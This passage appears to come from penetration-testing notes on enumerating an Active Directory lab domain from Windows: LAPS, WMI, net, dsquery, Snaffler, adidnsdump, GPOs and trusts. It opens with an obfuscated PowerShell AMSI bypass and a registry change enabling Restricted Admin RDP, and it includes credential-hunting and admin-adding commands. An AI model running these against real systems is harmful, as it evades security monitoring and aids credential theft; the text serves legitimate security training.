S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Add a registry
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```


[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) is a powershell functions that leverage PowerView to audit and attack Active Directory environments that have deployed Microsoft's Local Administrator Password Solution (LAPS). It includes finding groups specifically delegated by sysadmins, finding users with "All Extended Rights" that can view passwords, and viewing all computers with LAPS enabled. 

An account that has joined a computer to a domain receives `All Extended Rights` over that host, and this right gives the account the ability to read passwords. Enumeration may show a user account that can read the LAPS password on a host. This can help us target specific AD users who can read LAPS passwords.

```powershell
# Search for computers that have LAPS enabled when passwords expire
Get-LAPSComputers

# Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute
Find-LAPSDelegatedGroups

# Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute, meaning Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups
Find-AdmPwdExtendedRights
```

See [Windows Management Instrumentation (`WMI`)](135-windows-management-instrumentation-wmi.md).

```powershell
# Prints the patch level and description of the Hotfixes applied
wmic qfe get Caption,Description,HotFixID,InstalledOn	

# Displays basic host information to include any attributes within the list
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List	

# A listing of all processes on host
wmic process list /format:list	

# Displays information about the Domain and Domain Controllers
wmic ntdomain list /format:list	

#Displays information about all local accounts and any domain accounts that have logged into the device
wmic useraccount list /format:list	

# Information about all local groups
wmic group list /format:list	

# Dumps information about any system accounts that are being used as service accounts.
wmic sysaccount list /format:list	
```


[See the net.exe commands in powershell](powershell.md):

```powershell
# Information about password requirements
net accounts	

# Password and lockout policy
net accounts /domain

# Information about domain groups
net group /domain	

# List users with domain admin privileges
net group "Domain Admins" /domain

# List of PCs connected to the domain
net group "domain computers" /domain	

# List PC accounts of domains controllers
net group "Domain Controllers" /domain	

# User that belongs to the group
net group <domain_group_name> /domain	

# List of domain groups
net groups /domain	

# All available groups
net localgroup	

# List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)
net localgroup administrators /domain	

# Information about a group (admins)
net localgroup Administrators	

# Add user to administrators
net localgroup administrators [username] /add	

# Check current shares
net share	

# Get information about a user within the domain
net user <ACCOUNT_NAME> /domain	

# List all users of the domain
net user /domain	

# Information about the current user
net user %username%	

# Mount the share locally
net use x: \computer\share	

# Get a list of computers
net view	

# 	Shares on the domains
net view /all /domain[:domainname]

# List shares of a computer
net view \computer /ALL	

# List of PCs of the domain
net view /domain	
```

### Dsquery

[Dsquery](dsquery.md) is a helpful command-line tool that can be utilized to find Active Directory objects. 

`dsquery` will exist on any host with the `Active Directory Domain Services Role` installed, and the `dsquery` DLL exists on all modern Windows systems by default now and can be found at `C:\Windows\System32\dsquery.dll`.

All we need is elevated privileges on a host or the ability to run an instance of Command Prompt or PowerShell from a `SYSTEM` context.

```powershell
# User Search
dsquery user

# Computer Search
dsquery computer

# List objects in an OU
dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"

#  List Users With Specific Attributes Set (PASSWD_NOTREQD) by Combining dsquery with LDAP search filters of our choosing. The below looks for users with the PASSWD_NOTREQD flag set in the userAccountControl attribute.
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl

# Searching for Domain Controllers
 dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
# userAccountControl:1.2.840.113556.1.4.803: Specifies that we are looking at the User Account Control (UAC) attributes for an object. This portion can change to include three different values we will explain below when searching for information in AD (also known as Object Identifiers (OIDs).
# =8192 represents the decimal bitmask we want to match in this search. This decimal number corresponds to a corresponding UAC Attribute flag that determines if an attribute like password is not required or account is locked is set. 

# Search users with UAC set to `Password Can't Change`:
dsquery * -filter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=64))"

```


## 6. Shares

### net view

```powershell
# List shared resources at domain dc01
new view \\dc01 /all
# /all: includes also administrator shares
```


### Snaffler

[See snaffler](snaffler.md).

[Snaffler](https://github.com/SnaffCon/Snaffler) is a tool for **pentesters** and **red teamers** to help find delicious candy needles (creds mostly, but it's flexible) in a bunch of horrible boring haystacks (a massive Windows/AD environment). _Broadly speaking_ - it gets a list of Windows computers from Active Directory, then spreads out its snaffly appendages to them all to figure out which ones have file shares, and whether you can read them.


```bash
Snaffler.exe -s -d $domain -o snaffler.log -v data
# -s:  prints results to the console 
# -d: specifies the domain to search within
# -o: writes results to a logfile
# -v: verbosity level. "data" is best as it only displays results to the screen
```

## 7. DNS Records

! tips ""
	- [Getting in the Zone: dumping Active Directory DNS using adidnsdump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)
	- [See the tool adidnsdump](adidnsdump.md)


### adidnsdump

[See  adidnsdump](adidnsdump.md).

We can use a tool such as adidnsdump to enumerate all DNS records in a domain using a valid domain user account.  The tool works because, by default, all users can list the child objects of a DNS zone in an AD environment. By default, querying DNS records using LDAP does not return all results. So by using the `adidnsdump` tool, we can resolve all records in the zone and potentially find something useful for our engagement.

```bash
adidnsdump -u $domain\\$user ldap://$DomainControllerIP
# Example:
# adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 

# Viewing the Contents of the records.csv File
head records.csv 

# If we run again with the -r flag the tool will attempt to resolve unknown records by performing an A query. 
adidnsdump -u $domain\\$user ldap://$DomainControllerIP -r
# Example:
# adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r

# Now records.csv will include previously hidden records
head records.csv 
```


## 8. Group Policy Object (GPO)

We can enumerate GPO information using many of the tools we've been using throughout this module such as PowerView and BloodHound. We can also use [group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastle](https://www.pingcastle.com/), among others, to audit the security of GPOs in a domain.

### Powershell

If Group Policy Management Tools are installed on the host we are working from, we can use various built-in [GroupPolicy cmdlets](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/?view=windowsserver2022-ps) such as `Get-GPO` to perform the same enumeration.

```powershell
Get-GPO -All | Select DisplayName
```


### Powerview
Using the [Get-DomainGPO](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainGPO) function from PowerView, we can get a listing of GPOs by name.

```powershell
Import-Module .\PowerView.ps1
Get-DomainGPO |select displayname
```

Enumerating GPO Names with PowerView

```powershell
$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

Results:

``` 
ObjectDN              : CN={7CA9C789-14CE-46E3-A722-83F4097AF532},CN=Policies,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID             :
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, Delete, GenericExecute, WriteDacl, WriteOwner

... SNIP ...

```

Converting GPO GUID to Name:

```powershell
Get-GPO -Guid $GUID
# Example:
# Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
# In this case we  can see that the `Domain Users` group has several rights over the `Disconnect Idle RDP` GPO. 
```

[See how to take this attack further](active-directory-from-windows-attacks.md#group-policy-object-abuse).

## 9. Trust Relationships

### Introduction to Domain Trust Overview

A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way (bidirectional) communication. 

Types of trusts:

- `Parent-child`: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain `corp.inlanefreight.local` could authenticate into the parent domain `inlanefreight.local`, and vice-versa.
- `Cross-link`: A trust between child domains to speed up authentication.
- `External`: A non-transitive trust between two separate domains in separate forests which are not already joined by a forest trust. This type of trust utilizes [SID filtering](https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) or filters out authentication requests (by SID) not from the trusted domain.
- `Tree-root`: A two-way transitive trust between a forest root domain and a new tree root domain. They are created by design when you set up a new tree root domain within a forest.
- `Forest`: A transitive trust between two forest root domains.
- [ESAE](https://docs.microsoft.com/en-us/security/compass/esae-retirement): A bastion forest used to manage Active Directory.


Trusts can be transitive or non-transitive:

- A `transitive` trust means that trust is extended to objects that the child domain trusts:
	- Shared, 1 to many.
	- The trust is shared with anyone in the forest. 
	- Forest, tree-root, parent-child, and cross-link trusts are transitive.
- In a non-transitive trust, the child domain itself is the only one trusted:
	- Direct trust.
	- Not extended to the next level child domains.
	- Typical for external or custom trust setup.


Trusts can be set up in two directions: one-way or two-way (bidirectional):

- - `One-way trust`: Users in a `trusted` domain can access resources in a trusting domain, not vice-versa.
- `Bidirectional trust`: Users from both trusting domains can access resources in the other domain. 

### Windows binary: nltest

Similar, but very simplified information could be gleaned from a native Windows binary:

```powershell
nltest /domain_trusts
```


### Powershell

Powershell way of checking trust relationships:

```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

### Active Directory module: Get-ADTrust 

[See complete Active directory powershell module](activedirectory-powershell-module.md).

```powershell
Import-Module activedirectory
Get-ADTrust -Filter *
```

Pay attention to properties such as Direction, ForestTransitive and some others. 

From here we could enumerate users in the child domain:

```powershell
Get-DomainUser -Domain $domain | select SamAccountName
# Example:
# Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```


### PowerView.ps1 module: Get-DomainTrust

PowerView can be used to perform a domain trust mapping and provide information such as the type of trust (parent/child, external, forest) and the direction of the trust (one-way or bidirectional).

```powershell
Import-Module .\PowerView.ps1
Get-DomainTrust
```

Also we could do some mapping:

```powershell
Get-DomainTrustMapping
```

### netdom

The `netdom query` sub-command of the `netdom` command-line tool in Windows can retrieve information about the domain, including a list of workstations, servers, and domain trusts.

```cmd-session
# List trusts:
netdom query /domain:$domain trust
# Example:
# netdom query /domain:inlanefreight.local trust

# Enumerate Domain Controllers with accounts in the domain
netdom query /domain:$domain dc
# Example: 
# netdom query /domain:inlanefreight.local dc

#  query workstations and servers
netdom query /domain:$domain workstation
# Example:
# netdom query /domain:inlanefreight.local workstation
```


### Visualizing Trust Relationships in BloodHound

[See more about bloodhound](bloodhound.md).



